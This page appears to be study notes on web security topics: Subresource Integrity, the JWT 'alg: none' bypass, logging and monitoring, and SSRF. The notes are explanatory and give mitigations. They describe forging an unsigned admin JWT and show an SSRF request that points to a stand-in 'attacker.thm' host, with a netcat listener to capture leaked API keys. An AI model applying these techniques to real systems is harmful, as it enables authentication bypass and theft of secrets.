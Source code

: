 ### Software Integrity Failures (SRI)
**Problem:** Including third-party JS without integrity checks allows supply-chain compromise. Example:
```html
<script src="https://code.jquery.com/jquery-3.6.1.min.js"></script>
```
**Fix (Subresource Integrity):**
```html
<script src="https://code.jquery.com/jquery-3.6.1.min.js"
  integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ="
  crossorigin="anonymous"></script>
```
Use SRI hashes (generate via tools like https://www.srihash.org/).

### Data Integrity Failures (JWT `none` algorithm attack)
**Background:** JWTs have three base64 parts: `header.payload.signature`. Some vulnerable libraries allowed `alg: none` in header and skipped signature verification if signature omitted.
**Attack:** Modify header to `{"alg":"none"}` and change payload (e.g., `username: "admin"`), then remove signature. Vulnerable implementations accept the token — severe integrity bypass.
**Mitigations:**
- Use well-maintained JWT libraries
- Reject tokens with `alg: none` or explicitly validate allowed algorithms
- Enforce server-side session checks where appropriate

---

## Logging & Monitoring
**Why it matters:** Logs are key to detect incidents and perform forensics. Without them, breaches may go undetected and cause regulatory, operational, and reputational harm.

**Useful log fields:**
- Timestamps
- HTTP status codes
- Usernames / account identifiers
- Endpoints requested (URI)
- Source IP addresses
- Any authorization decision outcomes

**Monitoring & detection tips:**
- Alert on high-impact suspicious events (e.g., repeated auth failures, admin access from new IP)
- Rate events by severity and tune alerts to reduce noise
- Store logs securely and retain copies for forensic analysis

---

## Server-Side Request Forgery (SSRF)
**What it is:** A web app can be tricked into making requests on behalf of an attacker to arbitrary destinations. Often arises when the app accepts a URL/host to fetch third-party resources.

**Simple example:** An app takes `server` and `msg` and issues a request to the configured SMS provider:
```
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```
The app forwards request to attacker-controlled `attacker.thm`, leaking API keys and payloads (attacker captures via `nc -lvp 80`).
